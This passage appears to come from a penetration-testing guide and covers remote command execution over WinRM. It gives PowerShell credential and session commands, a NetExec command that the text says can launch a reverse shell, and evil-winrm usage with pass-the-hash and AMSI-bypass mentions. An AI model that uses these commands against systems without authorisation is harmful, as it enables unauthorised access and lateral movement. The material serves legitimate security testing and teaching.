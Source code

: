 If your user is inside of the **"Remote Management Users**" group, this may be an option.&#x20;

Windows Remote Management (WinRM) is another protocol built to execute commands remotely, this time allowing an interactive shell to be started as well. The commands are a little more complex in PowerShell, but we generate a password credential and start a session with that remotely:

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">PS C:\> $secureString = ConvertTo-SecureString $PASSWORD -AsPlaintext -Force;
PS C:\> $credential = New-Object System.Management.Automation.PSCredential $USERNAME, $secureString;

# Run a single command
PS C:\> $Options = New-CimSessionOption -Protocol DCOM
PS C:\> $Session = New-Cimsession -ComputerName $IP -Credential $credential -SessionOption $Options
<strong>PS C:\> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine ="calc"};
</strong>
# Start an interactive shell
<strong>PS C:\> New-PSSession -ComputerName $IP -Credential $credential
</strong>PS C:\> Enter-PSSession 1
[$IP]: PS C:\> whoami
$DOMAIN\$USERNAME
</code></pre>

[NetExec](https://github.com/Pennyw0rth/NetExec) can also run commands to start a reverse-shell for example, if you don't have access to a compromised PowerShell shell. This is very similar to the WMI command:

```
nxc winrm $IP -u $USERNAME -p $PASSWORD -x 'powershell -e ...'
```

Lastly, there is the purpose-built `evil-winrm` tool that can start an interactive session remotely. It also supports extra commands in the shell like uploading/downloading and starting the connection using pass-the-hash or a private key certificate:

{% embed url="https://github.com/Hackplayers/evil-winrm" %}
Interactive WinRM shell with many useful extra features
{% endembed %}

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ evil-winrm -i $IP -u $USERNAME -p $PASSWORD
</strong>
Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

<strong>*Evil-WinRM* PS C:\> 
</strong></code></pre>

Read '[Basic Commands](https://github.com/Hackplayers/evil-winrm?tab=readme-ov-file#basic-commands)' to learn about the extra built-in commands like uploading/downloading, loading assemblies, and [#amsi-bypass](antivirus-evasion.md#amsi-bypass "mention") all from inside the shell.

### RDP (3389)
